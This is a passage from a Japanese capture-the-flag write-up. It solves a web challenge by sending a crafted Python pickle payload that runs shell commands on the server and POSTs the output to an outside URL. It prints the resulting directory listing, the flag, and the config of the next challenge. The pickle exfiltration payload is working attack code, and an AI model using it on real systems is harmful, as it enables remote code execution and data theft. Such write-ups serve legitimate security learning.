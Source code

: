 これを実行すると、問題サーバから指定した URL へのアクセスが来ました。

`payload`　を `c__builtin__\nexec\n(S'sp = __import__("subprocess"); req = __import__("urllib.request").request; r = req.Request("https://(省略)", sp.check_output("ls -la /", shell=True)); req.urlopen(r)'\ntR.` に変えて実行すると以下のようなデータが POST されました。

```
total 72
drwxr-xr-x    1 root     root          4096 Sep 12 00:15 .
drwxr-xr-x    1 root     root          4096 Sep 12 00:15 ..
-rwxr-xr-x    1 root     root             0 Sep 12 00:15 .dockerenv
drwxr-xr-x    1 root     root          4096 Aug  4 04:13 bin
drwxr-xr-x    5 root     root           340 Sep 12 17:12 dev
drwxr-xr-x    1 root     root          4096 Sep 12 00:15 etc
-r--r--r--    1 root     root            17 Sep 10 22:51 flag.txt
drwxr-xr-x    2 root     root          4096 May 29 14:20 home
drwxr-xr-x    1 root     root          4096 Aug  4 04:13 lib
drwxr-xr-x    5 root     root          4096 May 29 14:20 media
drwxr-xr-x    2 root     root          4096 May 29 14:20 mnt
drwxr-xr-x    1 root     root          4096 Sep 10 23:04 opt
dr-xr-xr-x  531 root     root             0 Sep 12 17:12 proc
drwx------    1 root     root          4096 Sep 10 23:04 root
drwxr-xr-x    1 root     root          4096 Sep 10 23:04 run
drwxr-xr-x    1 root     root          4096 Aug  4 04:13 sbin
drwxr-xr-x    2 root     root          4096 May 29 14:20 srv
dr-xr-xr-x   13 root     root             0 Sep 12 17:12 sys
drwxrwxrwt    1 root     root          4096 Sep 13 00:05 tmp
drwxr-xr-x    1 root     root          4096 Sep 10 23:04 usr
drwxr-xr-x    1 root     root          4096 Aug  4 04:13 var
```

実行させる OS コマンドを `cat /flag.txt` に変えるとフラグが得られました。

```
flag{f1@sK_10rD}
```

## [Web 450] Web Real Time Chat (39 solves)
> I started playing around with some fancy new Web 3.1 technologies! This RTC tech looks cool, but there's a lot of setup to get it working... I hope it's all secure.
> 
> (URL)
> 
> 添付ファイル: Dockerfile, app.py, supervisord.conf

`supervisord.conf` は以下のような内容でした。

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 300s redis-server --bind 0.0.0.0
autorestart=true
user=www
```
